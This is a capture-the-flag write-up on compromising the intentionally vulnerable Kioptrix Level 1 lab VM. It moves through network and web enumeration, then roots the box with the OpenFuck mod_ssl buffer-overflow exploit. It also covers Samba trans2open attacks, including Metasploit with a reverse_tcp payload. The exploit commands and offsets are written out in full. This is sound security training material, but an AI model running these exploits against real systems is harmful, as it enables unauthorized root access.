Cover Image by [vector_corp](https://www.freepik.com/free-vector/abstract-low-poly-triangular-background_26129667.htm) on Freepik

## Description

This Kioptrix VM Image is an easy challenge. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games is to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways than one to complete the challenges.

[Kioptrix: Level 1 (#1) \~ VulnHub](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)

## Information Gathering

### Identifying Target 

Once Kioptrix is set up the first order of business is to find its IP address. Using the `ip` command the default gateway and IP Address of the attack machine can be discovered.

```bash
# Find Default Gateway
ip r

# View details of eth0 Network Interface
ip a l eth0
```


With the default gateway details, we can scan the subnet to find other connected devices.

```bash
# Scan Subnet
sudo netdiscover -P -r 10.0.2.0/24
```



The last entry `.22` is the address of the Kioptrix machine.

> [!NOTE]
> The `.1` and `.2` IP addresses are two interfaces of the VirtualBox virtual router. The `.3` IP belongs to the DHCP server setup by VirtualBox for the network. 


### Port Scanning

With the target machine discovered the next step is to perform an Port Scan to find the open ports on the machine.

```bash
# Port Scan (Rustscan)
sudo rustscan -a 10.0.2.22 --ulimit 5000 -- -sS -A -T4 -oN rustscan.txt
```


The scan shows that 5 ports are open on the target. Next, identify the services that are running on these ports and explore if any known vulnerabilities can be found.

[Rustscan Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl1/rustscan.txt)

On port 22 the SSH service is present. Scan results show that `OpenSSH` version `2.9p2` is running on the target.

There is a web server that is using ports 80 (HTTP) and 443 (HTTPS). The web server is  `Apache httpd 1.3.20`. The server is using `mod_ssl/2.8.4 OpenSSL/0.9.6b` for SSL. Additionally, we gather that the target is running RedHat Linux.

The Samba service is running on port 139. Port 111 is running `rpcbind` which is the port mapper service used by Samba to map calls from remote devices to local device ports.

### Enumeration OpenSSH

The SSH service is generally not vulnerable to attacks. And the vulnerabilities that do exist require user authentication.

After searching on Google and `searchsploit` as suspected there seem to be no exploits available for the version of SSH that is running on the target.

### Enumerating Apache


On opening the website we are greeted with a Test page. The source code of the application does not contain anything revealing either.

Next, we can perform directory enumeration to look for hidden directories and files.

```bash
# Directory Enumeration
feroxbuster -u http://10.0.2.22/ -x php,html -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -d 2 -f -C 404 --no-state -o feroxbuster.txt
```



[Feroxbuster Scan Result · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl1/feroxbuster.txt)



There is a `test.php` file that was discovered but nothing interesting is contained in it.



On the `/usage` route there are some graphs and metrics related to the webserver usage.



On the `/manual/mod` path we can see some files and documents related to the `mod_ssl` library.


On the `/mrtg` route a page related to a Router Traffic Grapher can be found. Since nothing major was found, using a vulnerability scan we can probe the website for weaknesses.

```bash
# Nikto Scan
nikto -h http://10.0.2.22 -o nikto.txt
```

[Nikto Scan Output · dvdmtw98/ctf-resources · GitHub](https://github.com/dvdmtw98/ctf-resources/blob/main/vulnhub/kioptrix_lvl1/nikto.txt)


The shows show that the SSL library that is used by the web server is vulnerable to remote buffer overflow attacks. We did find a directory containing some files related to `mod_ssl` during directory enumeration as well. The `nikto` scan also picked up the `test.php` file.


On searching on Google immediately multiple results for exploits targeting this version of `mod_ssl` can be found. `OpenFuck` seems to be a script that could be used to exploit this vulnerability.

### Enumerating Samba

Using `smbclient` the shares that are present on the target can be listed provided there is no authentication in place.

```bash
# List SMB Shares
smbclient -L //10.0.2.22
```


There are two shares listed, IPC$ and ADMIN$. If the target allows anonymous access to shares we should be able to connect to them.

```bash
# Connect to SMB Share
smbclient //10.0.2.22/ADMIN$

smbclient //10.0.2.22/IPC$
```


The ADMIN$ share did not allow access but we can connect to the IPC$ share without a password. None of the SMB commands seem to provide any results on the IPC$ share.

The port scan did not give us the version of the Samba service that is running on the target. Metasploit has a scanner that can be utilized to find the version of Samba.

```bash
msfconsole

# Metasploit Commands
search smb version
use 9
show options
set RHOSTS 10.0.2.22
run
```






We find that the target is running `Samba 2.2.1a`.


On searching Google we can see exploits are available for this version of Samba. There seems to be an exploit called `trans2open` that could be used on the target.

## Exploitation

### Exploiting Apache

During the enumeration phase, an exploit called `OpenFuck` was discovered which could potentially exploit the vulnerability in the version of `mod_ssl` that is used by Apache. But on further digging it was found that this version of the exploit does not work anymore. In its place a newer version of the same exploit called `OpenLuck` is available.

[GitHub - heltonWernik/OpenLuck: OpenFuck exploit updated to Linux 2018 - Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://github.com/heltonWernik/OpenLuck)

The exploit is written in C. After cloning the repository we need to compile the code using `gcc`.

```bash
# Clone Repository
git clone https://github.com/heltonWernik/OpenFuck.git

# Install Dependencies
sudo apt update && sudo apt install libssl-dev -y

# Compiling Code
gcc -o OpenFuck OpenFuck.c -lcrypto

# Running Exploit
./OpenFuck
```



On running the exploit we are presented with a usage menu with a list from which an offset to cause the buffer overflow needs to be selected. From our enumeration, we know that the target is using RedHat Linux.


Scrolling through the list we find two offsets that match the targets OS and version of Apache. The `0x6a` offset does not seem to work on the target.

```bash
./OpenFuck 0x6b 10.0.2.22 -c 40
```



By using the `0x6b` offset we can cause a  buffer overflow and gain root access to the system. 

> [!NOTE] 
> Metasploit also contains the `OpenFuck` exploit but similar to the code found online it does not work anymore.

### Exploiting Samba

For the version of Samba that is running on the target an exploit called `trans2open` was found. 

[GitHub - KernelPan1k/trans2open-CVE-2003-0201: Samba exploit CVE2003-0201](https://github.com/KernelPan1k/trans2open-CVE-2003-0201)

For the exploit to work the target needs to allow anonymous access to the IPC$ share. This was confirmed during the enumeration stage. Since this is also a C code it needs to be compiled after download. I could not get the C code to work. No matter how many times I run the code it would always fail.

```bash
./trans2open 0 10.0.2.22 10.0.2.15
```


Metasploit also has a `trans2open` exploit. This exploit is written in Ruby.

```bash
msfconsole

# Metasploit Commands
search trans2open
use 1
show options
set RHOSTS 10.0.2.22
exploit
```




The exploit does seem to work but the `meterpreter` sessions keep getting disconnected. We can try using a different payload to see if we can establish a connection.

```bash
show payloads
```



We can try any of the `reverse_tcp` payloads to check if it produces a positive result.

```bash
set payload 29
```


On using the new payload we can establish a connection. On running `whoami` we can see that we have got root access.